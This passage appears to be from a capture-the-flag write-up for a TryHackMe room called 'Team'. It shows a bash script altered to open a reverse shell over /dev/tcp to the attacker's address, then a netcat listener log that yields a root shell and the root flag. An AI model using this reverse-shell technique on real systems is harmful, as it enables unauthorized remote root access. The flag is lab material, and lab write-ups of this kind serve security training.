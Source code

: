 ```console
#!/bin/bash
cp -r /var/www/team.thm/* /var/backups/www/team.thm/i
bash -i >& /dev/tcp/10.17.39.205/8080 0>&1
```
Started netcat listener on port 8080 and got a reverse shell.
```console
┌──(divu050704㉿kali)-[~]
└─$ nc -lvnp 8080
listening on [any] 8080 ...
connect to [10.17.39.205] from (UNKNOWN) [10.10.173.26] 58516
bash: cannot set terminal process group (9768): Inappropriate ioctl for device
bash: no job control in this shell
root@TEAM:~# cat /root/root.txt
cat /root/root.txt
THM{fhqbznavfonq}
root@TEAM:~#
```

